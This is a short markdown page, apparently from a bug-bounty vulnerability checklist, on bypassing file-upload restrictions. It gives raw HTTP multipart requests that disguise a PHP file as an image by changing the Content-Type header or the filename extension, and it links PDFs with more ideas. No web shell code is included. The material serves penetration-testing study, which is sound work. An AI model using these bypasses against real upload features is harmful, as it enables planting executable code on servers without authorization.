 ## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
read also this pdf it contains a many ideas                                                                                                               
1-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/File-Upload.pdf                                    by`0xAwali`                   
2-https://github.com/Az0x7/vulnerability-Checklist/blob/main/File%20Upload/Slides(1).pdf                                      by`ebrahim hegazy`       

## Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

## Try to change the extension when sending the request, for example in here you can upload file with ext php but you can upload a jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

